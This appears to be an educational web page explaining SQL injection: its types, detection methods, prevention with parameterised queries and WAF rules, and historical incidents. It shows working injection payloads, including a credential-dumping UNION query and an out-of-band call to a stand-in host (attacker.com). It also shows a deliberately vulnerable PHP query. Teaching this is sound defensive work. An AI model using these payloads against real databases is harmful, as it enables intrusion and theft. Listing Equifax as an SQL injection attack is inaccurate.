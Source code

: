 +++
title = "SQL Injection"
date = 2024-01-13
description = "SQL injection is a code injection technique that might destroy your database. It is one of the most common web hacking techniques."
tags = ["security", "sql", "injection", "database", "attack"]
+++

# SQL Injection

SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.

## How SQL Injection Works

SQL injection occurs when an application incorporates user input into SQL queries without proper validation or parameterization.

### Example of Vulnerable Code

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
```

### Attack Example

An attacker could input:
```
admin' OR '1'='1
```

Resulting in:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

## Types of SQL Injection

### In-band SQL Injection

Direct communication channel for attack and result gathering:

#### Error-based SQL Injection
Exploits database error messages to gather information:

```sql
' AND (SELECT COUNT(*) FROM information_schema.tables) --
```

#### Union-based SQL Injection
Uses UNION SQL operator to combine results:

```sql
' UNION SELECT username, password FROM admin_users --
```

### Inferential SQL Injection (Blind)

No direct data transfer, attacker reconstructs information:

#### Boolean-based Blind
Relies on TRUE/FALSE responses:

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

#### Time-based Blind
Uses database delays to infer information:

```sql
'; IF (1=1) WAITFOR DELAY '00:00:10' --
```

### Out-of-band SQL Injection

Uses different communication channels (DNS, HTTP):

```sql
'; EXEC master.dbo.xp_dirtree '\\attacker.com\share' --
```

## Detection Techniques

### Manual Testing

Common test payloads:

```
'
"
`
')
")
`)
' OR 1=1 --
" OR 1=1 --
```

### Automated Scanning

Tools for SQL injection detection:

- **SQLMap** - Automatic SQL injection exploitation
- **Burp Suite** - Web application security scanner
- **OWASP ZAP** - Web application security scanner
- **Nessus** - Vulnerability scanner

## Prevention Methods

### Parameterized Queries (Prepared Statements)

The most effective defense:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
pstmt.setString(2, password);
```

### Stored Procedures

When implemented correctly:

```sql
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users 
    WHERE Username = @Username AND Password = @Password
END
```

### Input Validation

Whitelist validation:

```python
import re

def validate_username(username):
    pattern = re.compile("^[a-zA-Z0-9_]{3,20}$")
    return pattern.match(username) is not None
```

### Escaping User Input

Last resort method:

```php
$username = mysql_real_escape_string($_POST['username']);
```

### Least Privilege Principle

Database user permissions:

- Don't use administrative accounts for application connections
- Grant only necessary permissions
- Use separate accounts for different application components
- Regularly audit database permissions

## Advanced Prevention

### Web Application Firewalls (WAF)

Filter malicious requests:

```nginx
# ModSecurity rule example
SecRule ARGS "@detectSQLi" \
    "id:1001,\
    phase:2,\
    block,\
    msg:'SQL Injection Attack Detected',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"
```

### Database Activity Monitoring

Monitor suspicious database activities:

- Unusual query patterns
- Access to sensitive tables
- Failed authentication attempts
- Privilege escalation attempts

## Testing and Verification

### Code Review Checklist

- [ ] All SQL queries use parameterized statements
- [ ] Input validation is implemented
- [ ] Database errors are handled properly
- [ ] Least privilege principle is applied
- [ ] Logging and monitoring are in place

### Penetration Testing

Regular security assessments:

1. **Black box testing** - No knowledge of application internals
2. **White box testing** - Full access to source code and documentation
3. **Gray box testing** - Limited knowledge of application internals

## Real-world Examples

### Notable SQL Injection Attacks

- **2008 - Heartland Payment Systems**: 134 million credit cards compromised
- **2011 - Sony Pictures**: Personal information of 1 million users exposed
- **2012 - Yahoo**: 450,000 passwords stolen from Yahoo Voices
- **2017 - Equifax**: 147 million consumers affected (initially reported as Apache Struts vulnerability)

## Conclusion

SQL injection remains one of the most critical web application vulnerabilities. Prevention requires a multi-layered approach combining secure coding practices, proper input validation, and ongoing security testing.